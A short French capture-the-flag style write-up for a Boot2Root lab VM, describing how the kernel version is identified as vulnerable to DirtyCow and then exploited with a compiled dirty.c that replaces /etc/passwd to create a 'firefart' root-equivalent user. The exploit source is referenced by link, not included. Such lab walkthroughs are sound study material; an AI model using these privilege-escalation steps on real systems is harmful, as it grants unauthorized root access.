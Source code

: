 # Boot2Root -- VacheQuiPue

On recommence à partir de l'étape `Step 5 - Sanitize`

## Step 5 - Identification
Une fois sur le serveur, on cherche des potentielles manières de passer root.
Après un peu de recherche et de tests, on constate que le kernel est vulnérable à l'exploit DirtyCow
```
> uname -ra
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
La faille existe sur les Linux Kernel <= 3.19.0-73.8

## Step 6 - VacheQuiPue
On copie le code trouvable dans `scripts/dirty.c`, On le compile puis on le lance 
```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty cpt
```

On attend un peu, on se connecte en tant que `firefart`, on restore le passwd d'origine et on se connecte en tant que root
```
su firefart
mdp: cpt
mv /tmp/passwd.bak /etc/passwd
su root
```

Et hop, root.


## Sources:
References élevation de privilèges: https://book.hacktricks.xyz/linux-hardening/privilege-escalation
Exploit DirtyCow: https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c